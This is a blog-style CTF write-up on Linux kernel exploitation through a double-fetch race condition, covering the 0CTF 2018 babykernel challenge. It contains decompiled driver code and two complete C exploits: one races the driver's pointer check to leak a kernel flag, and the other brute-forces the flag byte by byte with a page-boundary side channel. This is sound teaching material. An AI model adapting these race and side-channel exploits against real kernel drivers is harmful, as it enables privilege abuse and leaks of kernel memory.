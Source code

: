 ```yaml
---
title: "Introduction of Kernel Pwn: Double Fetch"
date: 2022-05-19 17:52:21
tags: 
layout: default
---
```


# 0x00 Prologue
I only have little experience with kernel pwn. During the `Intro_to_OS` course, I read a lot of kernel code of `xv6` and learned the kernel systematically. Although `xv6` is a simple system while the `Linux` kernel is much more complex, the knowledge from `xv6` learned helps a lot.

This post would not go too deep into the kernel because I am too weak to do that and I got all the solution ideas from `CTF-wiki`. You can also download the attachments at this [link][1]

# 0x01 Double Fetch

![Double Fetch from CTF-Wiki](/Figures/Kernel/double-fetch.png)

Double fetch is a kind of race condition. In most situations, the kernel would get the data from user space by `copy_from_user`. But while dealing with complex data structures, the kernel read the data from userspace by a pointer. So there is a race condition:
```c
kernel  : get the data and perform some check
user   : change the data
kernel  : perform options to the data
```

# 0x02 Double Fetch Attack

[attachment][2]
According to its start script, it's a multi-process challenge. There is only one function in the device:
```c
__int64 __fastcall domain(__int64 a1, int a2, node *a3)
{
  int i; // [rsp+1Ch] [rbp-54h]

  if ( a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    return 0LL;
  }
  else if ( a2 == 0x1337
         && !_chk_range_not_ok((__int64)a3, 16LL)
         && !_chk_range_not_ok((__int64)a3->ptr, a3->len)
         && a3->len == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( a3->ptr[i] != flag[i] )
        return 22LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    return 0LL;
  }
  else
  {
    return 14LL;
  }
}
```
The function could leak the address of the flag. And We are asked to give a struct that includes a pointer and an inter which represent its length. Before comparing the given string and the true flag, the program checks if the given address is in the current task's mem space, which means we can't provide the address of the real flag to bypass the comparison. However, we can use `double fetch` to bypass the check and comparison because there is no synchronization to avoid race conditions.

The basic idea is 
- Brute force the length of the real flag
- Create a thread to send a valid payload
- The main thread keeps modifying the ptr to point to the real flag
- Stop when returning 0

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
struct node{
        void * ptr;
        size_t len;
}para;
int f;
int flag = 0;
size_t addr = 0;
void atk_func(void* p)
{   
    struct node *tmp = p;
    while(!flag)
        tmp->ptr = addr;    
}

int main()
{
    f = open("/dev/baby",2);
    ioctl(f,0x6666,0);
    system("dmesg > ./log");
    int log = open("./log",0);
    lseek(log,-58,SEEK_END);
    char buf[0x1000]={0};
    read(log,buf,0x10);
    puts(buf);
    addr = 0;
    
    for(int i =0; i<0x10;i++)
    {
        uint8_t tmp = buf[i]-'0';
        if(tmp>9)
        {
            tmp= buf[i]- 0x61+0xa;
        }
        addr+= tmp;
        if(i==0xf)
            break;
        addr = addr<<4;  
    }
    printf("%p\n",addr);
    para.ptr = buf;
    para.len = 33;
    pthread_t tid;
    pthread_create(&tid,NULL,atk_func,&para);
    int res =0;
    for(int i=0;i<0x10000;i++){
        res = ioctl(f,0x1337,&para);
        para.ptr = buf;
        if(!res)
            break;
    }
    flag=1;
    pthread_join(tid,NULL);
    system("dmesg | grep flag{");
}
```
# 0x03 SileChannel Attack
Also, the device would compare the string byte by byte so that we can place our payload at the end of the page to brute force the password byte by byte. 

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
struct node{
        void * ptr;
        size_t len;
}para;
int f;
int main()
{
    f = open("/dev/baby",2);
    struct node n132;
    n132.len = 33;
    char * mem = mmap(0x132000,0x1000,7,0x21,0,0);

    size_t res = 0;
    char *target = "flag{T";
    memcpy(mem+0xfff-strlen(target),target,strlen(target));
    n132.ptr = mem+0xfff-strlen(target);
    for(int i=0;i<0x100;i++){
        mem[0xfff] = i;
        printf("%c\n",i);
        res = ioctl(f,0x1337,&n132);
    }
    
}
```
# 0x04 Summary

These two tricks could be used on kernel string comparison challenges.

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/0CTF_2018/babykernel
